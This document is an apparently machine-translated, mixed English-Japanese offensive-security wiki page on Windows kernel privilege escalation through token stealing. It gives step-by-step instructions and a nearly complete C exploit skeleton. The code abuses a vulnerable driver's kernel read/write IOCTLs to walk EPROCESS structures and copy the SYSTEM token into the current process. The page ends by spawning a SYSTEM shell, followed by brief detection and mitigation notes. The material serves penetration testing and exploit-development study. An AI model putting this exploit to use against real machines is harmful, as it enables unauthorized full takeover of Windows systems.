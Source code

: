 # Windows kernel EoP: Token stealing with arbitrary kernel R/W

{{#include ../../banners/hacktricks-training.md}}

## 概要

If a vulnerable driver exposes an IOCTL that gives an attacker arbitrary kernel read and/or write primitives, elevating to NT AUTHORITY\SYSTEM can often be achieved by stealing a SYSTEM access token. The technique copies the Token pointer from a SYSTEM process’ EPROCESS into the current process’ EPROCESS.

なぜ動作するか:
- 各プロセスは EPROCESS 構造体を持ち、その中に（他のフィールドとともに）Token（実際にはトークンオブジェクトへの EX_FAST_REF）を含みます。
- SYSTEM プロセス（PID 4）は、すべての権限が有効なトークンを保持しています。
- 現在のプロセスの EPROCESS.Token を SYSTEM のトークンポインタで置き換えると、当該プロセスは即座に SYSTEM として実行されます。

> EPROCESS 内のオフセットは Windows のバージョンによって異なります。動的に決定する（symbols）か、バージョン固有の定数を使用してください。また、EPROCESS.Token は EX_FAST_REF であり、下位3ビットは参照カウントのフラグであることを忘れないでください。

## 高レベルの手順

1) Locate ntoskrnl.exe base and resolve the address of PsInitialSystemProcess.
- From user mode, use NtQuerySystemInformation(SystemModuleInformation) or EnumDeviceDrivers to get loaded driver bases.
- Add the offset of PsInitialSystemProcess (from symbols/reversing) to the kernel base to get its address.
2) Read the pointer at PsInitialSystemProcess → this is a kernel pointer to SYSTEM’s EPROCESS.
3) From SYSTEM EPROCESS, read UniqueProcessId and ActiveProcessLinks offsets to traverse the doubly linked list of EPROCESS structures (ActiveProcessLinks.Flink/Blink) until you find the EPROCESS whose UniqueProcessId equals GetCurrentProcessId(). Keep both:
- EPROCESS_SYSTEM (for SYSTEM)
- EPROCESS_SELF (for the current process)
4) Read SYSTEM token value: Token_SYS = *(EPROCESS_SYSTEM + TokenOffset).
- Mask out the low 3 bits: Token_SYS_masked = Token_SYS & ~0xF (commonly ~0xF or ~0x7 depending on build; on x64 the low 3 bits are used — 0xFFFFFFFFFFFFFFF8 mask).
5) Option A (common): Preserve the low 3 bits from your current token and splice them onto SYSTEM’s pointer to keep the embedded ref count consistent.
- Token_ME = *(EPROCESS_SELF + TokenOffset)
- Token_NEW = (Token_SYS_masked | (Token_ME & 0x7))
6) Write Token_NEW back into (EPROCESS_SELF + TokenOffset) using your kernel write primitive.
7) Your current process is now SYSTEM. Optionally spawn a new cmd.exe or powershell.exe to confirm.

## 擬似コード

Below is a skeleton that only uses two IOCTLs from a vulnerable driver, one for 8-byte kernel read and one for 8-byte kernel write. Replace with your driver’s interface.
```c
#include <Windows.h>
#include <Psapi.h>
#include <stdint.h>

// Device + IOCTLs are driver-specific
#define DEV_PATH   "\\\\.\\VulnDrv"
#define IOCTL_KREAD  CTL_CODE(FILE_DEVICE_UNKNOWN, 0x801, METHOD_BUFFERED, FILE_ANY_ACCESS)
#define IOCTL_KWRITE CTL_CODE(FILE_DEVICE_UNKNOWN, 0x802, METHOD_BUFFERED, FILE_ANY_ACCESS)

// Version-specific (examples only – resolve per build!)
static const uint32_t Off_EPROCESS_UniquePid    = 0x448; // varies
static const uint32_t Off_EPROCESS_Token        = 0x4b8; // varies
static const uint32_t Off_EPROCESS_ActiveLinks  = 0x448 + 0x8; // often UniquePid+8, varies

BOOL kread_qword(HANDLE h, uint64_t kaddr, uint64_t *out) {
struct { uint64_t addr; } in; struct { uint64_t val; } outb; DWORD ret;
in.addr = kaddr; return DeviceIoControl(h, IOCTL_KREAD, &in, sizeof(in), &outb, sizeof(outb), &ret, NULL) && (*out = outb.val, TRUE);
}
BOOL kwrite_qword(HANDLE h, uint64_t kaddr, uint64_t val) {
struct { uint64_t addr, val; } in; DWORD ret;
in.addr = kaddr; in.val = val; return DeviceIoControl(h, IOCTL_KWRITE, &in, sizeof(in), NULL, 0, &ret, NULL);
}

// Get ntoskrnl base (one option)
uint64_t get_nt_base(void) {
LPVOID drivers[1024]; DWORD cbNeeded;
if (EnumDeviceDrivers(drivers, sizeof(drivers), &cbNeeded) && cbNeeded >= sizeof(LPVOID)) {
return (uint64_t)drivers[0]; // first is typically ntoskrnl
}
return 0;
}

int main(void) {
HANDLE h = CreateFileA(DEV_PATH, GENERIC_READ|GENERIC_WRITE, 0, NULL, OPEN_EXISTING, 0, NULL);
if (h == INVALID_HANDLE_VALUE) return 1;

// 1) Resolve PsInitialSystemProcess
uint64_t nt = get_nt_base();
uint64_t PsInitialSystemProcess = nt + /*offset of symbol*/ 0xDEADBEEF; // resolve per build

// 2) Read SYSTEM EPROCESS
uint64_t EPROC_SYS; kread_qword(h, PsInitialSystemProcess, &EPROC_SYS);

// 3) Walk ActiveProcessLinks to find current EPROCESS
DWORD myPid = GetCurrentProcessId();
uint64_t cur = EPROC_SYS; // list is circular
uint64_t EPROC_ME = 0;
do {
uint64_t pid; kread_qword(h, cur + Off_EPROCESS_UniquePid, &pid);
if ((DWORD)pid == myPid) { EPROC_ME = cur; break; }
uint64_t flink; kread_qword(h, cur + Off_EPROCESS_ActiveLinks, &flink);
cur = flink - Off_EPROCESS_ActiveLinks; // CONTAINING_RECORD
} while (cur != EPROC_SYS);

// 4) Read tokens
uint64_t tok_sys, tok_me;
kread_qword(h, EPROC_SYS + Off_EPROCESS_Token, &tok_sys);
kread_qword(h, EPROC_ME  + Off_EPROCESS_Token, &tok_me);

// 5) Mask EX_FAST_REF low bits and splice refcount bits
uint64_t tok_sys_mask = tok_sys & ~0xF; // or ~0x7 on some builds
uint64_t tok_new = tok_sys_mask | (tok_me & 0x7);

// 6) Write back
kwrite_qword(h, EPROC_ME + Off_EPROCESS_Token, tok_new);

// 7) We are SYSTEM now
system("cmd.exe");
return 0;
}
```
注意事項:
- オフセット: WinDbg’s `dt nt!_EPROCESS` をターゲットの PDBs、または runtime symbol loader と一緒に使って正しいオフセットを取得してください。盲目的にハードコードしないでください。
- マスク: x64 では token は `EX_FAST_REF` です；下位3ビットが参照カウントのビットになっています。token の元の下位ビットを保持することで即時の参照カウント不整合を避けられます。
- 安定性: 現在のプロセスを昇格することを優先してください；短命なヘルパーを昇格させると、それが終了したときに SYSTEM を失う可能性があります。

## 検出と緩和
- 強力な IOCTLs を公開する署名されていない、または信頼できないサードパーティ製ドライバの読み込みが根本原因です。
- Kernel Driver Blocklist (HVCI/CI)、DeviceGuard、および Attack Surface Reduction ルールは脆弱なドライバの読み込みを防止できます。
- EDR は arbitrary read/write を実装する疑わしい IOCTL シーケンスや token swaps を監視できます。

## 参考
- [HTB Reaper: Format-string leak + stack BOF → VirtualAlloc ROP (RCE) and kernel token theft](https://0xdf.gitlab.io/2025/08/26/htb-reaper.html)
- [FuzzySecurity – Windows Kernel ExploitDev (token stealing examples)](https://www.fuzzysecurity.com/tutorials/expDev/17.html)

{{#include ../../banners/hacktricks-training.md}}
